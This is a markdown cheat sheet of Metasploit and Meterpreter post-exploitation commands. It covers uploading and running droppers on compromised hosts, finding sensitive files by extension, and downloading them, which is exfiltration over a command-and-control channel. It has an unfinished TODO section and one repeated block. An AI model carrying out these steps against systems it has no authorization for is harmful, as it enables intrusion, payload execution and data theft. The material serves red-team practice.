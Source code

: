 # Metasploit

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #command-and-control #T1041 #metasploit-framework

## Search specific file extensions

### Post Module

#### Linux

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(multi/manage/upload_exec) > options 

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

#### Windows

MSF Windows Gather Generic File Collection Post Module.

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.zip or *.tar.* or *.tgz or *.cab or *.rar or *.pdf or *.doc? or *.ppt? or *.pps? or *.pot? or *.xls? or *.config* or *.sql or *.db

msf post(windows/gather/enum_files) > set search_from C:\\path\\to\\directory\\

msf post(windows/gather/enum_files) > set session <session_ID>

msf post(windows/gather/enum_files) > run
```

### Meterpreter

```
meterpreter > search -d [<drive_letter>:]/path/to/directory/ -f *.txt -f *.zip -f *.tar.* -f *.tgz -f *.cab -f *.rar -f *.pdf -f *.doc? -f *.ppt? -f *.pps? -f *.pot? -f *.xls? -f config* -f *.sql -f *.db -f *.png -f *.jpg -f *.jpeg
```

## Download Files

```
meterpreter > download -h
Usage: download [options] src1 src2 src3 ... destination

Downloads remote files and directories to the local machine.

OPTIONS:

    -a   Enable adaptive download buffer size
    -b   Set the initial block size for the download
    -c   Resume getting a partially-downloaded file
    -h   Help banner
    -l   Set the limit of retries (0 unlimits)
    -r   Download recursively
    -t   Timestamp downloaded files
```

Download single file.

```
meterpreter > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/
```

Download multiple files using wildcard.

```
meterpreter > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/
```

Download multiple files in a directory recursively.

```
meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/
```

TODO: Fill this info

Download and execute batch files

```
msf > use post/windows/manage/download_exec
```

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(upload_exec) > options

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

---
## References

- [Rapid7: Metasploit Framework Upload Exec Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/upload_exec.md)

- [MITRE T1041: Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)